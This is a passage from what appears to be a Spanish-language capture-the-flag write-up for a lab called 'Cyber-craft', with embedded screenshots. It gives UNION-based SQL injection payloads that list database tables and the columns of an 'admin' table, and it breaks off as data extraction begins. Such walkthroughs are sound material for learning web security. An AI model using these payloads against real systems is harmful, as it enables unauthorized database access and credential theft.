 * Vemos que es vulnerable a inyección Sql.

<img src="imgs/Cyber-craft/Cyber-craft5.png">

* Extraemos el nombre de las tablas

        'union select NULL,NULL,NULL,table_name from information_schema.tables -- -

<img src="imgs/Cyber-craft/Cyber-craft6.png">

* Extraemos las columnas.

        'union select NULL,NULL,NULL,column_name from information_schema.columns where table_name='admin'-- -


<img src="imgs/Cyber-craft/Cyber-craft8.png">

* Extraemos la información de esas columnas.
